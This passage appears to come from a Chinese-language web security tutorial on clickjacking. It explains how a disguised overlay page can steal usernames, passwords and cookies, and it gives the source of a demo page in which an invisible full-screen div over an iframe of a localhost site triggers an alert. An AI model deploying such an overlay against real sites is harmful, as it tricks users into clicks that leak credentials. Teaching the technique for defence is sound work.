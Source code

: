 ![show-iframe-test](../imgs/wm_145.png)

这就是点击挟持，通过一个相同界面的伪装，让你误以为是平时所使用的网站，但却是一个攻击者的网站，在攻击时，一旦点击就不会是一个弹窗了而是获取你的用户名、密码、cookie 等等的作用了。

我们可以查看该页面的源码，实现的原理非常的简单：

```
<!DOCTYPE html>
<html>
<head>
    <title>iframe</title>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
</head>
<body style="width: 100%">
<div onclick="ifsub()" style="position: absolute; width: 100%; height: 100%;">&nbsp;</div>
<iframe src="http://localhost/index.php"  id="iframepage"   name="iframepage" frameBorder=0  width="100%" onLoad="iFrameHeight()" ></iframe>
</body>
<script>
    /*
     * 下面iFrameHeight函数以及上面iframe标签里面的 frameBorder=0  width="100%" onLoad="iFrameHeight()"都是在修改标签样式
     */
    function iFrameHeight() {
        var ifm= document.getElementById("iframepage");
        var subWeb = document.frames ? document.frames["iframepage"].document : ifm.contentDocument;
        if(ifm != null && subWeb != null) {
            ifm.height = subWeb.body.scrollHeight;
        }
    }


    function ifsub(){
        alert('clickjacking');
    }
```